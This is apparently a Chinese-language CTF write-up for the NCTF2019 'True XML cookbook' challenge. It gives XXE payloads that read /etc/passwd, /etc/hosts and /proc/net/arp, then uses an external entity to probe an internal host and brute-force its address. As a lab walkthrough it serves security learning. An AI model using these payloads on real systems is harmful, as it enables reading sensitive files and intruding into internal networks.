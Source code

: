 # \[NCTF2019]True XML cookbook

## \[NCTF2019]True XML cookbook

## 考点



## wp

直接抓包进行XXE

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

提示加载失败，把文件换成`/etc/passwd`就成功加载了。再去读`/etc/hosts`

![](<../.gitbook/assets/image (24) (1) (1) (1) (1).png>)

再去读`/proc/net/arp`

![](<../.gitbook/assets/image (19) (1) (1).png>)

看到内网有存活的主机，尝试访问，提示失败

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://169.254.1.1/">
  ]>
<user><username>&admin;</username><password>123546</password></user>
```

放在burp里面爆破一下最后一位地址即可
